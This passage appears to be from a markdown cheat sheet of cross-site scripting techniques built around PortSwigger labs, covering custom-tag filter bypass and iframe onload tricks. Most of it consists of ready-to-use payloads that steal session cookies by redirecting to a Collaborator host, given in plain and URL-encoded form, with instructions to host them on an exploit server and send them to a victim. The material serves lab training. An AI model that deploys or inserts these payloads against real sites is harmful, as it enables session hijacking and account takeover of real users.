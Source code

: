### Custom Tags not Blocked  
  
>Application respond with message ***"Tag is not allowed"*** when attempting to insert XSS payloads, but if we create a custom tag it is bypassed.  

```html
<xss+id=x>#x';
```  

***Identify*** if above custom tag is not block in search function, by observing the response. Create below payload to steal session cookie out-of-band.  

```
<script>
location = 'https://TARGET.net/?search=<xss+id=x+onfocus=document.location='https://Collaborator.COM/?c='+document.cookie tabindex=1>#x';
</script>
```
   
>**Note:** The custom tag with the ID ```x```, which contains an **onfocus** event handler that triggers the ```document.location``` function. The **HASH** `#` character at the end of the URL focuses on this element as soon as the page is loaded, causing the payload to be called. Host the payload script on the exploit server in ```script``` tags, and send to victim. Below is the same payload but **URL-encoded** format.  

```
<script>
location = 'https://TARGET.net/?search=%3Cxss+id%3Dx+onfocus%3Ddocument.location%3D%27https%3A%2F%2FCOLLABORATOR.COM%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```  

![Custom XSS tag](images/custom-xss-tag.png)  
  
[PortSwigger Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)  

[z3nsh3ll - explaining custom tags for XSS attacks](https://youtu.be/sjs6RS7lURk)  
  
### OnHashChange  

>Below iframe uses **HASH** `#` character at end of the URL to trigger the **OnHashChange** XSS cookie stealer.  
  
```JavaScript
<iframe src="https://TARGET.net/#" onload="document.location='http://COLLABORATOR.com/?cookies='+document.cookie"></iframe>
```  

>Note if the cookie is secure with **HttpOnly** flag set enabled, the cookie cannot be stolen using XSS.  

>PortSwigger Lab payload perform print.  

```JavaScript
<iframe src="https://TARGET.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```  
